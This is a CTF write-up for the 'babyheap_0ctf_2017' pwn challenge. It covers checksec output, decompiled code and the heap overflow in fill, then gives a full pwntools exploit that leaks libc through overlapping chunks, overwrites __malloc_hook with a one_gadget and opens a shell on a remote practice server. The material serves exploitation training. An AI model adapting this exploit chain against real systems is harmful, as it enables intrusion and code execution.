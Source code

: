 # BUU-babyheap_0ctf_2017

## checksec

```shell
[*] '/home/niebelungen/Desktop/buu/babyheap/babyheap_0ctf_2017'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

## IDA

**add**

```c
void __fastcall sub_D48(__int64 a1, __int64 a2)
{
  int i; // [rsp+10h] [rbp-10h]
  int v3; // [rsp+14h] [rbp-Ch]
  void *v4; // [rsp+18h] [rbp-8h]

  for ( i = 0; i <= 15; ++i )
  {
    if ( !*(_DWORD *)(24LL * i + a1) )
    {
      printf("Size: ");
      v3 = sub_138C("Size: ", a2);
      if ( v3 > 0 )
      {
        if ( v3 > 4096 )
          v3 = 4096;
        v4 = calloc(v3, 1uLL);
        if ( !v4 )
          exit(-1);
        *(_DWORD *)(24LL * i + a1) = 1;
        *(_QWORD *)(a1 + 24LL * i + 8) = v3;
        *(_QWORD *)(a1 + 24LL * i + 16) = v4;
        printf("Allocate Index %d\n", (unsigned int)i);
      }
      return;
    }
  }
}
```

**fill**

```c
__int64 __fastcall sub_E7F(__int64 a1)
{
  __int64 result; // rax
  int v2; // [rsp+18h] [rbp-8h]
  int v3; // [rsp+1Ch] [rbp-4h]

  printf("Index: ");
  result = sub_138C();
  v2 = result;
  if ( (int)result >= 0 && (int)result <= 15 )
  {
    result = *(unsigned int *)(24LL * (int)result + a1);
    if ( (_DWORD)result == 1 )
    {
      printf("Size: ");
      result = sub_138C();
      v3 = result;
      if ( (int)result > 0 )
      {
        printf("Content: ");
        result = sub_11B2(*(_QWORD *)(24LL * v2 + a1 + 16), v3);
      }
    }
  }
  return result;
}
```

**free**：将标志位清零，指针清零

**dump**：输出内容

漏洞是在`fill`时可以进行堆溢出，首先想办法leak libc。可以申请任意大小的chunk，unsorted bin中的chunk，其fd和bk都会指向`main_arena`，而`main——arena`是在libc中的，可以通过这一点进行leak。

另一个点是申请chunk时，使用的是`calloc`会对chunk中的内容进行清空。所以，想到利用`overlapping chunk`，在一个chunk中包含一个unsorted chunk，将其free，再输出chunk的内容，就可以leak。这里我们申请后，要覆盖的chunk的head已经被清空了，所以还要恢复其头部信息。我们没有对这个chunk进行修改，它也没有`prev_size`域，所以只要保持size是原值就行。

控制执行流，我们没有办法控制栈内容，所以想到`__malloc_hook`，通过`house_of_spirit`申请到`__malloc_hook`附近的chunk，对其进行覆盖。

## exp

```python
from pwn import *
from LibcSearcher import LibcSearcher
from struct import pack
leak = lambda name,addr: log.success('{0} addr ---> {1}'.format(name, addr))
context.log_level="DEBUG"
#context.arch="amd64"

local=0
binary='./babyheap_0ctf_2017'
#gdb.attach(p)
if local:
	sh=process(binary)
else:
	sh=remote('node3.buuoj.cn',27982)

elf = ELF(binary,checksec=False)
#libc = ELF('./libc-2.271.so')

def alloc(size):
    sh.sendline('1')
    sh.recvuntil('Size:')
    sh.sendline(str(size))
    #sh.recvuntil('Allocate Index ')
    
def fill(index, size, content):
    sh.sendline('2')
    sh.recvuntil('Index: ')
    sh.sendline(str(index))
    sh.recvuntil('Size:')
    sh.sendline(str(size))
    sh.recvuntil('Content: ')
    sh.sendline(str(content))
    
def free(index):
    sh.sendline('3')
    sh.recvuntil('Index: ')
    sh.sendline(str(index))
    
def dump(index):
    sh.sendline('4')
    sh.recvuntil('Index: ')
    sh.sendline(str(index))

one_gadget =[0x45216,0x4526a,0xf02a4,0xf1147]

#gdb.attach(sh)
alloc(0x100) #0
alloc(0x100) #1
alloc(0x80) #2
alloc(0x10) #3 

#leak libc
payload = 'a'*0x100+'a'*8+p64(0x1a1)
free(1)
fill(0, len(payload), payload)
alloc(0x190) #1
payload = 'a'*0x100+p64(0x00)+p64(0x91)
fill(1, len(payload), payload)
free(2)
dump(1)
main_arena = u64(sh.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
malloc_hook = main_arena -88 - 0x10
fake_chunk = malloc_hook -0x23
libc_base=main_arena-88-0x3C4B20 
one = libc_base + one_gadget[1]
leak('main_arena', hex(main_arena))
leak('malloc_hook',hex(malloc_hook))
leak('fake_chunk', hex(fake_chunk))
leak('libc_base', hex(libc_base))
alloc(0x80)
#gdb.attach(sh)
alloc(0x60) #4
alloc(0x10) #5
free(4)
payload = p64(0)*3+p64(0x71)+p64(fake_chunk)
fill(3, len(payload), payload)

alloc(0x60) #4
alloc(0x60) #6
payload = 'a'*0x13+p64(one)
fill(6,len(payload),payload)
alloc(0x10) #7

sh.interactive()
```



